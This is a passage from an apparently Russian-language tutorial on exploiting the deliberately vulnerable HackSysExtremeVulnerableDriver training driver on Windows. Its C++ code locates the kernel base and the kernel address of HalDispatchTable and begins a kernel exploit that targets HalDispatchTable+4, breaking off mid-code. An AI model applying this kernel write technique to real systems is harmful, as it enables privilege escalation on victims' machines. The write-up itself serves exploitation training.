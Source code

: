 ![Handles list](/assets/post_images/2.png)

Get HalDispatchTable:

```cpp
for (i = 0; i < cDrivers; i++) {
            if (GetDeviceDriverBaseName(drivers[i], szDriver, sizeof(szDriver) / sizeof(szDriver[0]))) {
                //printf(" - %ws - \n", (const WCHAR *)szDriver);
                //printf("%ls : %ls\n", szDriver, TEXT("ntkrnlpa.exe"));
                if (!wcscmp(szDriver, TEXT("ntkrnlpa.exe"))) {
                    printf("[+] Kernel Image Base: %p\n", drivers[i]);

                    HMODULE ntkrnlpaHandle = LoadLibraryExW(szDriver, 0, 0);
                    PVOID HALUserLand = (PVOID)GetProcAddress(ntkrnlpaHandle, "HalDispatchTable");
                    printf("[+] HalDispatchTable userland: %p \n", HALUserLand);
                    printf("\n\nHALUserLand: %p\nntkrnlpaHandle: %p\ndrivers[i]: %p\n\n", HALUserLand, &ntkrnlpaHandle, drivers[i]);
                    PVOID HalDispatchTable = (PVOID)((ULONG)drivers[i] - (ULONG)ntkrnlpaHandle + (ULONG)HALUserLand);
                    //PVOID HalDispatchTable = HALUserLand – ntkrnlpaHandle + szDriver;

                    printf("[~] HalDispatchTable Kernel: %p\n", HalDispatchTable);
                }
                //printf("Skipped!\n");
            }
        }
```

![Handles result](/assets/post_images/3.png)

Так как переписывать мы будем HalDispatchTable+4, прибавим ещё 4 в коде и напишем эксплойт

```cpp
#include <Windows.h>
#include <psapi.h>
#include <tchar.h>
#include <stdio.h>

#define IO_CODE 0x22200B

const char kDevName[] = "\\\\.\\HackSysExtremeVulnerableDriver";

#define ARRAY_SIZE 1024

int main() {
    __debugbreak();
    LPVOID drivers[ARRAY_SIZE];
    DWORD cbNeeded;
    int cDrivers, i;

    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) & cbNeeded < sizeof(drivers)) {
        TCHAR szDriver[ARRAY_SIZE];

        cDrivers = cbNeeded / sizeof(drivers[0]);

        printf("There are %d drivers:\n", cDrivers);
        for (i = 0; i < cDrivers; i++) {
            if (GetDeviceDriverBaseName(drivers[i], szDriver, sizeof(szDriver) / sizeof(szDriver[0]))) {
                //printf(" - %ws - \n", (const WCHAR *)szDriver);
                //printf("%ls : %ls\n", szDriver, TEXT("ntkrnlpa.exe"));
                if (!wcscmp(szDriver, TEXT("ntkrnlpa.exe"))) {
                    printf("[+] Kernel Image Base: %p\n", drivers[i]);

```